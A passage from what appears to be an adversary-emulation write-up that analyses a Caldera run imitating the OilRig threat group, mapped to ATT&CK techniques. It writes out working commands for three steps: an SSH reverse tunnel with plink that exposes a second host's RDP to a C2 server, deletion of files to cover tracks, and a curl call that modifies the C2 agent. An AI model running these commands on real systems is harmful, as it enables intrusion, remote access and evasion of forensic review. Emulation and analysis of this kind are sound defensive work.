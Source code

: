   - **Setup SSH Reverse Tunnel**:
    - `copy C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe`: Prepares an SSH utility (plink.exe) for tunneling connections.
    - `exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}`: Establishes an SSH reverse tunnel from the target system to the attacker’s C2 server, allowing **remote access to the target’s RDP service** (`T1572`).
  
  6. **Defense Evasion Phase (Covering Tracks and Modifying Agent)**
  
  The attacker finalizes the intrusion by removing artifacts and modifying the agent’s settings to evade detection and reduce forensic evidence.

  - **Remove Evidence**:

    - `del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe`;: Deletes evidence of exfiltration files and SSH utilities, ensuring minimal trace of the activity (T1070.004).
  
  - **Modify Agent for Evasion**:

    - `curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"`: Sends a request to modify the agent’s settings, possibly extending its lifecycle or reducing logging to evade detection (T1564).
  
## Summary: Adversary’s Objective
  
The OilRig adversary employs this command sequence to execute a comprehensive attack strategy aimed at **infiltration**, **persistence**, and **exfiltration** while **evading detection**. The main objectives include:

  1. **Detailed Reconnaissance**: Systematically map the system’s resources, users, network, and policies to establish a solid foundation for attack operations.
    
  2. **Credential Harvesting**: Attempt to obtain credentials for privilege escalation or lateral movement.
    
  3. **Data Exfiltration**: Steal specific files from the host and upload them to a remote server, likely containing sensitive data or access credentials.
  
  4. **Persistence Setup**: Deploy a hidden web shell and SSH tunnel to maintain access for future actions without requiring re-entry.
    
  5. **C2 Channel Establishment**: Set up a persistent command-and-control mechanism for issuing commands remotely.
    
  6. **Evasion and Covering Tracks**: Clean up artifacts, hide files, and modify settings to reduce the chance of detection and leave as little evidence as possible.
  
This strategy reflects a **persistent and stealth-focused APT-style attack**, closely aligned with real-world tactics used by threat actors aiming to maintain access over extended periods and conduct reconnaissance, data exfiltration, and system compromise while minimizing the likelihood of discovery.`

## Checking the Caldera Event Logs:

[Download JSON data](/assets/txt/Test-OilRig_event-logs.json)
